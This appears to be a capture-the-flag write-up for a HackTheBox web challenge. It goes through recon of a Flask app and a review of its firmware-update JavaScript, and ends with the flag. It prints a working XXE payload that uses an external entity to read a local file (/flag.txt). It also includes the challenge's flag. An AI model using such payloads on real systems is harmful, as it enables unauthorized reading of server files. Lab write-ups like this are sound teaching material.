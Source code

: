 # Challenge: Jailbreak (Web)

## Challenge Overview

**Name:** Jailbreak
**Category:** Web
**Difficulty:** Very Easy

### Description:

The crew secures an experimental Pip-Boy from a black market merchant, recognizing its potential to unlock the heavily guarded bunker of Vault 79. Back at their hideout, the hackers and engineers collaborate to jailbreak the device, working meticulously to bypass its sophisticated biometric locks. Using custom firmware and a series of precise modifications, can you bring the device to full operational status in order to pair it with the vault door's access port. The flag is located in /flag.txt

---

# Challenge Progress: JailbreaK 

## Recon & Enumeration

### Initial Scanning

```bash
whatweb http://94.237.60.55:31755
```

**Result:**

- Server: Werkzeug (Python 3.12.3)
- Framework: Flask
- Tech stack: Bootstrap, jQuery, HTML5
- Title: PIP-OS(R) V1.33.7

---

## Content Discovery

Manual browsing revealed several interesting endpoints:

- `/flag.txt` → Forbidden
- `/console`, `/debug`, `/vault`, `/firmware`, `/api/`, `/rom` → Some accessible
- `/rom` → Firmware update interface

---

## Source Code Review

Found JS file: `/static/js/update.js`

```javascript
const queueUpdate = async (xmlConfig) => {
    const response = await fetch("/api/update", {
        method: "POST",
        headers: {
            "Content-Type": "application/xml",
        },
        body: xmlConfig
    });
    return await response.json();
};

window.onload = async () => {
    const xmlConfiguration = `<FirmwareUpdateConfig>
    <Firmware>
        <Version>1.33.7</Version>
        <ReleaseDate>2077-10-21</ReleaseDate>
        <Description>Update includes advanced biometric lock functionality for enhanced security.</Description>
        <Checksum type="SHA-256">9b74c9897bac770ffc029102a200c5de</Checksum>
    </Firmware>
    </FirmwareUpdateConfig>`;
    $("#configData").val(xmlConfiguration);

    $("#updateBtn").on("click", async () => {
        const msg = await queueUpdate($("#configData").val());
        $("#messageText").text(msg.message);
    });
};
```

This confirms XML is parsed server-side → **XXE attack vector**.

---

## Exploitation - XXE Injection

### Failed Attempt

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<root><data>&xxe;</data></root>
```

**Error:**
```
The root element must be 'FirmwareUpdateConfig'.
```

### Working Payload

```xml
<!DOCTYPE FirmwareUpdateConfig [
  <!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<FirmwareUpdateConfig>
  <Firmware>
    <Version>&xxe;</Version>
    <ReleaseDate>2077-10-21</ReleaseDate>
    <Description>Test</Description>
    <Checksum type="SHA-256">abc</Checksum>
  </Firmware>
</FirmwareUpdateConfig>
```

This payload successfully triggered the file read from `/flag.txt`.

---

## 🏁 Flag

```
HTB{b1om3tric_l0cks_4nd_fl1cker1ng_l1ghts_d22128d8ecb3f9f9a45cdb341917fb5b}
```

GOODD GUYSSSS~